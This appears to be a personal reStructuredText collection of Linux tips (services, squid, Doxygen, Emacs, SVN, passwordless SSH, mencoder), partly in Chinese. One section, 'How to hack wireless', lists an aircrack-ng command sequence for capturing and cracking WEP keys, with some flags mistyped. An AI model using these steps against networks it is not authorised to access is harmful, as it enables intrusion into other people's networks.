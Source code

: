 .. index::linux tips

******************************************
A collection of my linux tips
******************************************

rm argument list too long
===============================

USE find::

 find . -name '*.txt' | xargs rm

Setup commands for Service on my desktop
======================================================

- vsftpd: 

.. code-block:: none

    sudo /etc/rc.d/vsftpd start

- mysqld:

.. code-block:: none

    sudo /etc/rc.d/mysqld start

- apache

.. code-block:: none

    sudo apachectl start

- squid::

    sudo squid
    sudo squid -k reconfigure 

- Starting Squid

After you've finished editing the configuration file, you can start Squid for the first time. First, you must create the swap directories. Do this by running Squid with the -z option::

/usr/local/squid/sbin/squid -z

Once that completes, you can start Squid and try it out. Probably the best thing to do is run it from your terminal and watch the debugging output. Use this command::

/usr/local/squid/sbin/squid -NCd1

If everything is working fine, then your console displays: "Ready to serve requests".

If you want to run squid in the background, as a daemon process::

/usr/local/squid/sbin/squid

You should be a privileged user to start/stop squid..


- goagent

.. code-block:: none

    goagent start

- gappproxy

.. code-block:: none

    gapproxy start



Ubuntu tips
=====================

- Delete the ubuntu 11.04 file usage history::

    rm ~/.local/share/zeitgeist/activity.sqlite
    zeitgeist-daemon --replace

Archlinux tips
=====================
- `Disable_PC_Speaker_Beep <https://wiki.archlinux.org/index.php/Disable_PC_Speaker_Beep#In_console>`_ ::

    xset -b

- If you want to auto start some service like

  1. squid
  #. vsftp
  #. apache
  #. mysqld

  Just put it into rc.conf as below::

    DAEMONS=(squid vsftpd httpd mysqld sshd hwclock syslog-ng network netfs crond dbus kdm cupsd)


Squid Tips
========================

Set Reverse proxy
--------------------------
Add the following lines to squid.conf::
    
    #Reverse
    http_port <local ip>:80 accel defaultsite=www.cnmath.org
    
    cache_peer <ip.of.webserver1> parent 80 0 no-query originserver name=server_2
    acl sites_server_2 dstdomain <domain.for.webserver1>
    cache_peer_access server_2 allow all
    
    cache_peer <ip.of.webserver2> parent 80 0 no-query originserver name=server_1
    acl sites_server_1 dstdomain <domain.for.webserver2>
    cache_peer_access server_1 allow all
    


Little softwares
==========================


I. `menumaker <http://menumaker.sourceforge.net/>`_ for IceWM:

.. code-block:: none

    mmaker IceWM

.. _doxygen:


.. index:: doxygen

Doxygen
====================

- Chinese Guide of Doxygen for `chm <http://www.fmddlmyy.cn/text21.html>`_
- Chinese `Manual of Doxygen <http://cpp.ezbty.org/content/science_doc/doxygen%E4%B8%AD%E6%96%87%E6%96%87%E6%A1%A3>`_

Use Chinse in Doxygen Latex:
-----------------------------------
  1. set LANGUAGE in Doxyfile as Chinese

  #. add xeCJK settings at the very previous lines of "\\begin{document}"::
  
       \usepackage{xeCJK}
       \setCJKmainfont{AR PL UKai CN}
       \begin{document}

     Or use my package `berserk.sty <ftp://lab.yeshiwei.com/tex/berserk.sty>`_ , put it into the direcotry, and::
  
       \usepackage{berserk}
       \begin{document}

  #. finally edit the Makefile change "pdflatex" to "xelatex".

Emacs tips
================

doxymacs
-----------------------

Active it and set the user email in .emacs::

    (require 'doxymacs)
    (setq-default user-mail-address "...")
    
auto-complete
------------------------

http://cx4a.org/software/auto-complete/#Downloads

无法打开ibus输入法的问题
----------------------------

通过把 LC_CTYPE 设置为 zh_CN 才可以在 Emacs 里使用输入法，例如，可以通过如下方式启动 Emacs ：

LC_CTYPE=zh_CN.utf8 emacs

http://blog.pluskid.org/?p=328

TexLive Tips
==================

- Solve::

    Error: Missing language pack for 'Adobe-GB1' mapping

with::

    apt-get install poppler-data

- `xelatex template </doc.tar.gz>`_ （中文模板）
 


SVN
==================================================

`Setup a Subversion Server in 4 Minutes <http://www.tonyspencer.com/2007/03/02/setup-a-subversion-server-in-4-minutes/>`_

You are going to need to type fast but I think you can do it in 4 minutes.   These are my notes on what worked for me on my Fedora core 6 with svn lib already installed by the package manager:

Create a Repository
--------------------------------------------------

svnadmin create /svnrepos

Create a SVN User
--------------------------------------------------
::

 vi /svnrepos/conf/svnserve.conf

In that file add these three lines::

 anon-access = none
 auth-access = write
 password-db = passwd

Create a password file::

 vi /svnrepos/conf/passwd

In that file add a line for your user::

 # add users in the format : user = password
 tony = mypassword

Import Your Project
--------------------------------------------------

(assuming you’ve put your project files in /projects/myrailsproject)::

 svn import /projects/myrailsproject file:///svnrepos/myrailsproject

Start the SVN Server as Daemon
----------------------------------------------------------------------------------------------------
::

 svnserve -d

Done! You should now have a svn server running with one project named myrailsproject.

Try checking it out of the repository::

 svn co svn://192.168.0.2/svnrepos/myyrailsproject

Since we set anon-access to none you should be prompted for username and password which you created in the file /svnrepos/conf/passwd.

文档查看器（Evince）打开中文PDF显示方块的问题
====================================================================================

使用Evince打开部分pdf文件，特别是中国知网上下载的pdf论文时，常常显示为方块。
evince,okular, epdfview的pdf功能均由xpdf的分支poppler提供。poppler官方网站：http://poppler.freedesktop.org

必须先安装poppler-data::
 
 sudo apt-get install poppler-data

如果已经安装了文泉驿正黑字体，使用下面的方法解决显示方块问题::

 sudo gedit  /etc/fonts/conf.d/49-sansserif.conf

将倒数第四行的sans-serif修改为WenQuanYi Zen Hei就可以了。 

修改为其他的中文字体名称应该也是可以的。

设置 SSH 不用密码登录另一台电脑
============================================================

Your aim
---------------------------

You want to use Linux and OpenSSH to automize your tasks. Therefore you need an automatic login from host A / user a to Host B / user b. You don't want to enter any passwords, because you want to call ssh from a within a shell script.

How to do it
--------------------------

First log in on A as user a and generate a pair of authentication keys. Do not enter a passphrase::

 a@A:~> ssh-keygen -t rsa
 Generating public/private rsa key pair.
 Enter file in which to save the key (/home/a/.ssh/id_rsa): 
 Created directory '/home/a/.ssh'.
 Enter passphrase (empty for no passphrase): 
 Enter same passphrase again: 
 Your identification has been saved in /home/a/.ssh/id_rsa.
 Your public key has been saved in /home/a/.ssh/id_rsa.pub.
 The key fingerprint is:
 3e:4f:05:79:3a:9f:96:7c:3b:ad:e9:58:37:bc:37:e4 a@A

Now use ssh to create a directory ~/.ssh as user b on B. (The directory may already exist, which is fine)::

 a@A:~> ssh b@B mkdir -p .ssh
 b@B's password: 

Finally append a's new public key to b@B:.ssh/authorized_keys and enter b's password one last time::

 a@A:~> cat .ssh/id_rsa.pub | ssh b@B 'cat >> .ssh/authorized_keys'
 b@B's password: 

From now on you can log into B as b from A as a without password::

 a@A:~> ssh b@B hostname
 B

A note from one of our readers: Depending on your version of SSH you might also have to do the following changes::

 Put the public key in .ssh/authorized_keys2
 Change the permissions of .ssh to 700
 Change the permissions of .ssh/authorized_keys2 to 640

How to hack wireless
==========================

WEBSITES:
http://www.backtrack-linux.org
http://www.imgburn.com

TERMINAL COMMANDS::
 
 Startx
 /etc/init.d/networking start
 airmon-ng
 airmon-ng stop [wireless card name]
 airmon-ng start [wireless card name]
 airmon-ng
 airodump-ng [wireless card name]
 ctrl c
 airodump-ng w wep c [channel number] bssid [Bssid number] [wireless card name]
 aireplay-ng -1 0 a [bssid] [wireless card name]
 aireplay-ng -3 b [bssid][wireless card name]
 ctrl + c
 dir
 aircrack-ng [filename]

Extract audio from video
=================================================

假如在欣赏电影过程中出现了一段美妙的插曲（特别是印度电影，一般都会有很多歌舞片段），很多时候我们都想将其截取下来并作为mp3格式保存！利用mencoder可以很容易的实现这一愿望::

 mencoder -o out.mp3 -ovc frameno -oac mp3lame -lameopts cbr:br=128 -of rawaudio -ss 1:30 -endpos 2:45 test.rmvb

在实际操作中，用户需要更改的就是那两个时间参数值了！该命令参数的详细说明如下::

 -o out.mp3 输出的目标文件名称
 -ovc frameno 不处理视频编码
 -oac mp3lame 输出的音频编码格式为mp3
 -lameopts cbr:br=128 音频附件选项，cbr(常量比特率)编码格式，音频码流为128bps(对于mp3来说，128已经足够了)
 -of rawaudio 输出文件为原始音频流
 -ss 1:30 音频截取的起始时间(表示从影片的第1分30秒开始截取)
 -endpos 2:45 预截取音频的长度(表示预截取的音频长度是2分45秒，那么可以计算出其结束时间是4:15)
 test.rmvb 输入源文件

举个简单例子：如果想截取影片中1:28:10~1:30:25这段时间的音频，则 -ss参数的值应该是88:10(1小时28分等于88分)，-endpos参数的值应该是2:15(就是上面两个时间段的差值了)，然后将实际参数值代入上面命令即可！

上面的示例选用的输入源文件是rmvb格式，当然了，像avi、mp4等格式的多媒体文件肯定也是可行的！

上面展示的仅是提取音频，如果想保存为MTV，那就更简单了：
对于rmvb文件：mencoder -o mtv.avi -ovc lavc -oac mp3lame -ss 1:30 -endpos 2:45 test.rmvb
对于 avi 文件：mencoder -o mtv.avi -ovc copy -oac copy -ss 1:30 -endpos 2:45 test.rmvb

-ss参数使用参考示例::

 -ss 10 从10秒开始
 -ss 10:10 从10分10秒开始
 -ss 1:10:10 从1小时10分10秒开始

-endpos参数使用参考示例::

 -endpos 10 编码的时间为10秒
 -endpos 10:10 编码的时间为10分10秒
 -endpos 1:10:10 编码的时间为1小时10分10秒
 -endpos 10mb 编码数据量为10M
